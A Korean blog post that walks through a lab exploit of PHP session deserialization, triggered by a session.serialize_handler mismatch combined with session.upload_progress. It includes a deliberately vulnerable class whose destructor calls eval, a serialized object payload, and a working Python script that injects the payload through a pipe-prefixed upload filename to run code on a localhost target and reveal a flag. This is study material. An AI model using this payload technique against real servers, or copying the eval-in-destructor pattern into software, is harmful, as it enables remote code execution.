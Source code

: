 ```yaml
---
layout: post
title:  "PHP session.serialize_handler가 php_serialize로 되어 있는 경우 역직렬화 취약점 발생"
tags: [WEB-Vuln,WEB-Study]
excerpt: "PHP session.serialize_handler이 php_serialize에서 php으로 변경될 경우 세션이 역직렬화 되는 과정에서 발생하는 역직렬화 취약점"
---
```

---

# PHP session.serialize_handler이란?

PHP 설정 세팅 중 [session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)는 세션의 데이터를 모두 직렬화/역직렬화할 때 사용되는 핸들러입니다.

간단하게 PHP세션의 직렬화/역직렬화 방식 핸들러를 session.serialize_handler옵션을 이용하여 지정할 수 있게 됩니다.

php.net를 살펴보면 나와있는대로 default는 php으로 지정되어 있고 php_binary, php_serialize, wddx가 있다고 나와 있습니다.

이번 블로그 글에서 다룰 부분은 session.serialize_handler이 기본으로 php_serialize으로 설정 되어 있는 상태에서 로컬에서 session.serialize_handler을 php 으로 바꾸는 과정에서 발생할 수 있는 역직렬화 취약점을 적어볼려고 합니다.

---

## PHP session.serialize_handler php_serialize 작동 방식

먼저 session.serialize_handler은 위에서 언급했다시피 기본 값으로는 php으로 되어있습니다.

만약 php에서 ``session_start();`` 함수를 이용하여 세션을 시작하면 ``session_save_path()`` 경로에 ``sess_(PHPSESSID)`` 형식으로 파일에 세션 정보가 직렬화되어 저장됩니다

하지만 만약 session.serialize_handler이 php일 경우 

```php
<?php 

session_start();

$_SESSION['test'] = 'test';

echo session_save_path()."\n";

?>
```

위와 같은 코드를 실행시키면 세션이 시작되면서 session_save_path() 함수 결과의 위치에 세션 정보가 있는걸 볼 수 있습니다.

```bash
$ cat /var/lib/php/sessions/sess_02g9od7s6sn9iv9ob8q63g8u0i
test|s:4:"test";
```

하지만 해당 코드를 session.serialize_handler를 php_serialize로 바꾼 다음 세션 파일을 읽어보면 데이터 저장 형식이 조금 달라진것을 볼 수 있습니다.

```php
a:1:{s:4:"test";s:4:"test";}
```

이제 이러한 php_serialize 방식을 이용하여 php 으로 바꼇을 때 역직렬화 취약점이 발생할 수 있는걸 다뤄보겠습니다.

---

# PHP session.serialize_handler unserialize exploit

먼저 session.serialize_handler을 이용하여 역직렬화 취약점을 발생시킬 수 있는 사이트를 구축해볼려면

[php session.serialize_handler 취약점 발생할 수 있는 환경을 만들어야되는데](https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize) 먼저 php.ini 파일 위치를 찾아 session.serialize_handler값을 php_serialize으로 바꾼 다음

+ [https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize](https://github.com/kimminwyk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize)

위의 Github 코드와 똑같이 구축한 다음 소스코드를 분석해보면 config.php 파일에서 session.serialize_handler 값을 php으로 변경해주면 세션에 php_serialize으로 직렬화되어 저장되어 있던 데이터가 php으로 변경되면서 역직렬화되는 과정을 거치게 됩니다.

그리고 RCE 취약점을 발생시키기 위해서는 exploit 클래스의 command 값을 조작해야되는데

```php
ini_set("session.serialize_handler", "php");

class exploit{
    public $command;
    function __destruct() {
        eval($this->command);
    }
}

session_start();
```

위의 config.php 파일의 class exploit 부분을 똑같이 로컬에서 구축하여 serialize 함수를 이용해 데이터를 직렬화 해보면

![local test class exploit serialize](\post-images\PHP\SESSION\session.serialize_handler\local_test_exploit_class_serialize.png)

이렇게 ``O:7:"exploit":1:{s:7:"command";s:30:"include('/var/www/html/flag');";}`` exploit 클래스를 직렬화한 데이터가 출력되는것을 볼 수 있습니다.

---

## PHP session.upload_progress를 이용한 SESSION Upload

하지만 exploit 데이터를 가지고 있다고 해도 서버에다가 해당 정보를 전송 할 방법을 없기 때문에 

session.upload_progress.clenup 와 session.upload_progress.enable가 아래와 같이 구성되어 있는 경우

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

PHP에서 세션을 ``session_start()`` 함수를 사용하는 대신 POST로 ``PHP_SESSION_UPLOAD_PROGRESS`` 이름으로 파일 업로드하여 세션을 생성시킬 수 있습니다.

이제 ``session.upload_progress``을 이용하여 POST으로 요청하면 되는데 그냥 단순히 requests 모듈로 open 함수를 써서 files 매개변수에 값을 넣으면 url 인코딩되어 제대로된 값이 들어가지 않기 때문에 

직접 POST body 데이터를 만들어준 다음에 헤더에 me2nuk이라는 쿠키 이름으로 요청보내주면 sess_me2nuk 파일에 php_serialize 방식으로 직렬화된 데이터가 들어간 파일 이름이 직렬화 되어 

페이지에서는 command 이라는 변수가 조작되어 ``include('/var/www/html/flag');`` 코드가 실행되는걸 볼 수 있습니다.
 

```py
import requests

contents = """------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

me2nuk
------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="file"; filename="|O:7:\\"exploit\\":1:{s:7:\\"command\\";s:30:\\"include('/var/www/html/flag');\\";}"
Content-Type: text/plain

------Me2nukPHPSessionUploadProgress--"""

url = "http://127.0.0.1/"
headers = {
    "Content-Type": "multipart/form-data; boundary=Me2nukPHPSessionUploadProgress",
    "Cookie": "PHPSESSID=me2nuk"
}
r = requests.post(url, headers=headers, data=contents)

print(r.request.body)

result = requests.get(url, headers=headers).text

print(result)
```

하지만 보통은 filename에 들어가게 되면 모든 세션의 정보가 하나로 직렬화되어 sess_me2nuk 파일에 저장되어있을텐데

저렇게 따로 데이터를 분리시켜 exploit 이라는 클래스를 조작할 수 있는 이유는 

\| 특수문자를 이용하여 세션 정보를 분리시켜줄 수 있었기 때문입니다.

만약 \| 파이프를 넣지 않으면 세션 정보로 구별되어 exploit 클래스에 전혀 영향을 끼치지 않으므로 filename 첫번째에 \| 파이프를 넣어준 다음 직렬화된 exploit 클래스 정보를 넣어주면 됩니다.

![_request python](\post-images\PHP\SESSION\session.serialize_handler\_request.png)

그러면 이렇게 요청한 결과 ``FLAG{phP_sEssi0n_s2rla1ize_haNd12R_pHp_s2ria1ize}``가 나오는걸 볼 수 있습니다.

---

## 후기

이 블로그에서 다룬 내용은 간단하게 ``session.upload_progress.clenup``, ``session.upload_progress.enabled``, ``session.serialize_handler`` 설정을 이용하여 클래스를 조작할 수 있는 주제에 대해 다뤘는데 

처음에는 잘 몰라서 삽질했지만 이 기회에 재밌는 취약점을 공부하여 좋았습니다.